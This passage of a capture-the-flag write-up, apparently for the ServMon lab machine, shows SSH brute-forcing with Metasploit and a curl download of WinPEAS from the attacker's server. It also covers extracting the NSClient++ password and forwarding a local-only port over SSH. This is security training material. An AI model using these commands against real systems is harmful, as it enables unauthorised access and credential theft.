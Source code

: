 {{< figure src="__GHOST_URL__/content/images/2020/05/servmon_burp2.gif" >}}

Now that we have a list of passwords we will save them to a file. Now we try them against NVMS to login as Nadine, Nathan and Admin but none work. The SSH port is open as well so we can try to bruteforce our way into that while we're at it. There are a few ways to do this either the `Metasploit` module for logging in or `Hydra`. In this case I'll use `Metasploit`.

Command:
`msf5> use auxiliary/scanner/ssh/ssh_login`
`msf5> set pass_file passwords`
`msf5> set username Nathan`
`msf5> set rhost 10.10.10.184`

We run the command but nothing shows up, so we change our username value to nadine.

Command:
`msf5> set username nadine`

This comes back with a hit! We could have just put both usernames in a file and supplied that list insead rather than running the module twice.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-4.png" >}}

We then SSH in as this user and get our user.txt flag.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-5.png" >}}

Once we have that we will start enumerating. We'll spin up a `SimpleHTTPServer` and download `WinPEAS.bat` to the system. I tried a few ways of getting the file over, `certutil`, `powershell` but it ended up being as simple as useing the `-o` flag on the built in `curl` command.

Command:
`curl http://10.10.14.202/winPEAS.bat -o "C:\Temp\win.bat"`

We then run the file. A majority of functions get denied but there is still some usefull information here. We see there is a service running on port 8443 that doesn't match our `nmap` scan.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-7.png" >}}

While the rest of the scan runs, we'll head over to port 8443 and see what might be on it. An attempt at getting there via HTTP does not work, HTTPS is required.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-8.png" >}}

Nothing seems to be loading on this page however. We do another `searchsploit` for NSClient and come back with a [local windows exploit for escalation](https://www.exploit-db.com/exploits/46802). We see that we can obtain a password from the `nsclient.ini` file or via a command

We run the command to obtain the password: `nscp web password --display`

{{< figure src="__GHOST_URL__/content/images/2020/05/image-9.png" >}}

We're also going to look at the ini file for any other useful information. There is one additional piece of information we need inside this file.  The allowed hosts is set to local hosts only.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-11.png" >}}

This means we'll need to setup some port forwarding to access the page.

Command:
`ssh -L 9000:127.0.0.1:8443 nadine@10.10.10.184`
